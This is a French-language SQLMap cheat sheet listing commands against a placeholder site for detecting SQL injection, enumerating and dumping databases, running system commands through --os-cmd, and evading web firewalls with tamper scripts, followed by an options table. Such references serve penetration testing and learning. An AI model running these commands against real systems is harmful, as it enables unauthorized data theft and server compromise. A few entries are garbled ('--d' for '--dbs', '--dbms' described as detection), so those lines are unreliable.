 # 🐍 SQLMap Cheat Sheet 

##  Commandes les plus utiles

➡️ Test simple d'injection sur une URL
```
sqlmap -u "http://site.com/page.php?id=1"
```
`
➡️ Détection + dump automatique de la BDD
```
sqlmap -u "http://site.com/page.php?id=1" --batch --dump
```
`
➡️ Spécifier un paramètre vulnérable
```
sqlmap -u "http://site.com/page.php" --data="id=1" --batch
```
`
➡️ Enumérer toutes les BDD
```
sqlmap -u "http://site.com/page.php?id=1" --d
```

➡️ Choisir une BDD spécifique et lister ses tables
```
sqlmap -u "http://site.com/page.php?id=1" -D nom_bdd --tables
```
`
➡️ Lister les colonnes d'une table spécifique
```
sqlmap -u "http://site.com/page.php?id=1" -D nom_bdd -T nom_table --columns
```

➡️ Dumper les données d'une table spécifique
```
sqlmap -u "http://site.com/page.php?id=1" -D nom_bdd -T nom_table --dump
```
`
➡️ Scan avec cookie de session
```
sqlmap -u "http://site.com/page.php?id=1" --cookie="PHPSESSID=abc123"
```
`
➡️ Utilisation d’un fichier POST complet
```
sqlmap -r requete.txt
```

➡️ Détection du SGBD
```
sqlmap -u "http://site.com/page.php?id=1" --dbms=mysql
```
`
➡️ Tentative d'exécution de commande système (si vulnérable)
```
sqlmap -u "http://site.com/page.php?id=1" --os-cmd="whoami"`
```

➡️ Bypass WAF avec random case + encodage
```
sqlmap -u "http://site.com/page.php?id=1" --tamper=between,randomcase,charencode
```
`

---

## 🧩 Options utiles (tableau)

|Option|Description courte|
|---|---|
|`-u`|URL cible|
|`--data`|Paramètres POST à injecter|
|`-r`|Requête brute (fichier texte avec headers)|
|`--dbs`|Enumérer les bases de données|
|`-D`|Sélectionner une base de données|
|`--tables`|Lister les tables|
|`-T`|Sélectionner une table|
|`--columns`|Lister les colonnes|
|`--dump`|Extraire les données|
|`--batch`|Mode non interactif (valide tout par défaut)|
|`--level=1-5`|Profondeur du scan (1 par défaut, 5 = complet)|
|`--risk=1-3`|Risque des requêtes (1 = safe, 3 = agressif)|
|`--os-cmd`|Exécuter commande système (si injectable)|
|`--cookie`|Inclure cookie pour session|
|`--tamper=<scripts>`|Bypass WAF/IDS (ex: `between`, `charencode`, etc.)|
|`--technique=BEUSTQ`|Forcer type d’injection (Boolean, Error, Union...)|
|`--dbms=<type>`|Forcer un type de SGBD (MySQL, MSSQL, etc.)|
